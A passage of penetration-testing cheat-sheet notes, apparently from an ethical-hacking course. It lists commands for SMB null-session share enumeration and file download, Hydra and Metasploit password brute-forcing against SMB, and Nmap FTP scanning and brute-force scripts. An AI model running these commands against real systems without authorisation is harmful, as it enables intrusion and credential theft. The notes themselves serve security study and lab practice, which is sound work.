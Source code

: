 ```
# 3 - If confirmed that Null Session exists, you can remotely list all share of the target:
smbclient -L WORKGROUP -I <TARGET_IP> -N -U ""
# 4 - You also can connect the remote server by applying the following command:
smbclient \\\\<TARGET_IP>\\c$ -N -U ""
# 5 - Download those files stored on the share drive:
smb: \> get file_shared.txt
```

**Hydra**

```
gzip -d /usr/share/wordlists/rockyou.txt.gz

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
```

We can use a wordlist generator tools (how [Cewl](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/cewl)), to create custom wordlists.

**Metasploit**

```
# METASPLOIT Starting
msfconsole
msfconsole -q

# METASPLOIT SMB
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor

## set options depends on the selected module
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser <USER>
set RHOSTS <TARGET_IP>
exploit
```

**FTP**



**Nmap**

```
sudo nmap -p 21 -sV -sC -O <TARGET_IP>
nmap -p 21 -sV -O <TARGET_IP>

nmap -p 21 --script ftp-anon <TARGET_IP>
nmap -p 21 --script ftp-brute --script-args userdb=<USERS_LIST> <TARGET_IP>
```

**Ftp Client**

```
ftp <TARGET_IP>
ls
cd /../..
get <filename>
put <filename>
```
